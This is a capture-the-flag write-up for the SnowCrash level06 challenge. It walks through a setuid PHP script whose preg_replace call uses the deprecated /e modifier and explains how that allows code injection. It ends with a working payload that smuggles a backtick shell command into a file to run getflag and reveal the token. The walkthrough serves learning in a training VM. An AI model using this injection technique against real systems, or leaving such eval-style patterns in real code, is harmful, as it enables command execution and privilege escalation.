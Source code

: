 How to find:

    level06@SnowCrash:~$ ls -la
    total 24
    dr-xr-x---+ 1 level06 level06  140 Mar  5  2016 .
    d--x--x--x  1 root    users    340 Aug 30  2015 ..
    -r-x------  1 level06 level06  220 Apr  3  2012 .bash_logout
    -r-x------  1 level06 level06 3518 Aug 30  2015 .bashrc
    -rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
    -rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
    -r-x------  1 level06 level06  675 Apr  3  2012 .profile

1 binary and 1 php script

    cat level06.php 
    #!/usr/bin/php
    <?php

    function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
    
    function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); 
    
    return $a; }
    
    $r = x($argv[1], $argv[2]); print $r;
    
    ?>

execute level06 file

    level06@SnowCrash:~$ ./level06
    PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/  level06.php on line 4


execute with argument

    level06@SnowCrash:~$ ./level06 hello
    PHP Warning:  file_get_contents(hello): failed to open stream: No such file or directory in /home/user/level06/level06.php on line 4

execute with path 

    level06@SnowCrash:~$ echo "HELLO POTXOLO" > /tmp/hello.txt
    level06@SnowCrash:~$ ./level06 /tmp/hello.txt

    HELLO POTXOLO


**Code explanation:**

The code contain 2 functions and it prints the result returned by the function x.


- Calls the function x with 2 parameters, In our case the first parameter is the file name.

- The function x calls file_get_contentswhich returns the content of the file as String

- Then calls the preg_replacewhich uses RegEx to find and replace specific string patterns.

    - Searches for the pattern ([x ...])

    - Searches for the character [ and replaces with (

    - Searches for the character ] and replaces with )

Returns the result which is then used to print to the standard output.



inside VM

    level06@SnowCrash:~$ php --version
    
    PHP 5.3.10-1ubuntu3.19 with Suhosin-Patch (cli) (built: Jul  2 2015 15:05:54) 
    Copyright (c) 1997-2012 The PHP Group
    Zend Engine v2.3.0, Copyright (c) 1998-2012 Zend Technologies

in our machine

    (base) ➜  ~ php --version
    
    PHP 8.1.2-1ubuntu2.19 (cli) (built: Sep 30 2024 16:25:25) (NTS)
    Copyright (c) The PHP Group
    Zend Engine v4.1.2, Copyright (c) Zend Technologies
    with Zend OPcache v8.1.2-1ubuntu2.19, Copyright (c), by Zend Technologies

So... outdated php version inside VM
If we run the script in a newer php version:

    Cannot load the ionCube PHP Loader - it was built with configuration API320180731,NTS, whereas running engine is API320190902,NTS
    PHP Warning:  preg_replace(): The /e modifier is no longer supported, use preg_replace_callback instead in /home/samad/Desktop/__TMP__/SnowCrash/php_test.php on line 11


So /e modifier is no longer supported
In the official php dock they says

"When preg_replace() is called with the /e modifier, the interpreter must parse the replacement string into PHP code once for every replacement made"

In other words whatever is parsed is transformed into php code

In summary if we give something that start with [x  and end with ] and whetever inside will be treated as php code

We can use the execution operators( ` ) to execute shell commands.

    level06@SnowCrash:~$ echo '[x ${`getflag`} ]' > /tmp/getflag06
    level06@SnowCrash:~$ ./level06 /tmp/getflag06
    PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
    in /home/user/level06/level06.php(4) : regexp code on line 1
    